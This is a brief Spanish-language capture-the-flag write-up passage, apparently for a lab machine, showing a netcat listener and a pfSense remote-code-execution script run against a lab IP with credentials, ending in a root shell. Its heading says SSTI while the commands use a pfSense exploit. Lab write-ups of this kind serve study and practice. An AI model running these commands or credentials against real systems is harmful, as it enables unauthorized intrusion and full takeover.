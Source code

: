 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

En el panel de ayuda vemos que nos pide nuestra ip y un puerto.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script

    ```bash
    python pfsense_exploit_rce.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 443 --username rohit --password pfsense
    ```

```bash
whoami
#Output
root
```

Oh my gaaaaadddddddd!!!!!!!!!
